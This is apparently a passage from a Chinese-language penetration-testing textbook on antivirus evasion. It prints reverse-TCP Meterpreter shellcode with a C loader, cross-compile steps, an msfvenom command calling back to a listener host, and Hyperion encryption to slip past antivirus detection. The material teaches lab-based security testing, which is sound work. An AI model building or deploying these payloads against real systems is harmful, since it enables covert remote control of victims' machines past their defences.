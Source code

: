 ```
"\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a"
"\x05\x68\x0a\x00\x01\x09\x68\x02\x00\x09\x29\x89\xe6\x6a\x10"
"\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e"
"\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56"
"\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a"
"\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6"
"\x85\xf6\x75\xec\xc3";

int main(void)
{
        ((void (*)())shellcode)();
}
```

现在我们需要编译 C 程序。我们不能使用内置的 GCC 程序，因为它会将程序编译成适用于 Linux 系统的格式，而我们需要在 32 位 Windows 系统上运行。相反，我们将使用 Kali Linux 仓库中的 Mingw32 交叉编译器，这是我们在第一章中安装的。如果你还没有安装，使用**`apt-get install mingw32`**进行安装，然后使用**`i586-mingw32msvc-gcc`**编译自定义 C 文件。（除了程序名称，使用交叉编译器的语法与 Linux 内置的 GCC 相同，后者在第三章中讨论过。）

```
root@kali:~# **i586-mingw32msvc-gcc -o custommeterpreter.exe custommeterpreter.c**
```

现在将生成的可执行文件上传到 VirusTotal。截至目前，18 款防病毒产品已检测到该恶意文件。这是一个进步，但 Microsoft Security Essentials 仍然能够捕捉到我们的文件。

我们仍然需要更加努力，才能将恶意可执行文件传送到我们的 Windows 7 系统上。（你可能会通过使用来自其他仓库的另一个交叉编译器获得更好的成功率。）

### 使用 Hyperion 加密可执行文件

混淆有效负载的另一种方法是对其进行加密。一个可用的可执行文件加密工具是 Hyperion，它使用先进的执行标准（AES）加密，这是当前的行业标准。加密可执行文件后，Hyperion 会丢弃加密密钥。当可执行文件运行时，它会暴力破解加密密钥，将自己解密回原始可执行文件。

如果你有加密学方面的背景，整个过程应该引起你很多的警觉。AES 目前被认为是一个安全的加密标准。如果可执行文件无法访问加密密钥，它不应该能够在合理的时间内暴力破解密钥，肯定无法在我们的渗透测试时间窗口内快速破解。那是怎么回事？

事实证明，Hyperion 大大缩小了加密密钥的可能键空间，这意味着用它加密的二进制文件不应该被认为是密码学上安全的。然而，由于我们的目标和 Hyperion 作者的目标是混淆代码以绕过防病毒检测，因此密钥可以被暴力破解这一点并不是问题。

让我们首先使用 Hyperion 对一个简单的 Meterpreter 可执行文件进行加密，且不使用任何额外的防病毒规避技术，如 示例 12-8 所示。（我们在 第一章 中安装了 Hyperion。）

示例 12-8。运行 Hyperion

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -f exe > meterpreter.exe**
root@kali:~# **cd Hyperion-1.0/**
root@kali:~/Hyperion-1.0# **wine ../hyperion ../meterpreter.exe bypassavhyperion.exe**❶

Opening ../bypassav.exe
Copied file to memory: 0x117178
--*snip*--

Executing fasm.exe

flat assembler  version 1.69.31
5 passes, 0.4 seconds, 92672 bytes.
```
